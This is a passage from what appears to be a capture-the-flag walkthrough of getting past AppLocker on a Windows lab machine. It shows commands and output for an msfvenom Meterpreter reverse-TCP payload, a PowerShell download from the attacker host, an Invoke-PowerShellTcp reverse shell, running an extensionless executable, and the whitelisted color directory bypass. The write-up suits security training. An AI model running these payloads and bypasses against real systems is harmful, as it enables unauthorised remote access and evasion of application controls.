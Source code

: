 
It just hangs, but at `msfconsole`, where I had a `exploit/multi/handler`
listening, there’s a connection:

    
    
    msf6 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:443 
    [*] Sending stage (175174 bytes) to 10.10.10.72
    [*] Meterpreter session 1 opened (10.10.14.6:443 -> 10.10.10.72:49175 )
    
    meterpreter > 
    

#### Extensionless

It turns out that while AppLocker is blocking `.exe` files, I can still upload
an executable and run it without that extension.

I’ll generate a payload:

    
    
    oxdf@hacky$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=443 -f exe -o met.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 354 bytes
    Final size of exe file: 73802 bytes
    Saved as: met.exe
    

Now upload it. Saving it as `met.exe` fails, but `met` succeeds:

    
    
    PS C:\programdata> wget 10.10.14.6/met.exe -outfile met.exe
    Invoke-PowerShellTcp : Access to the path 'C:\programdata\met.exe' is denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp
    
    PS C:\programdata> wget 10.10.14.6/met.exe -outfile met
    

Now I’ll just start the process with PowerShell:

    
    
    PS C:\programdata> Start-Process -Filepath C:\programdata\met -Wait -NoNewWindow
    

And it returns a shell at `msfconsole`.

#### color Directory

There’s a common directory, `C:\Windows\System32\spool\drivers\color`, which
is known to be a AppLocker whitelisted directory, and it’s world writable. For
example:
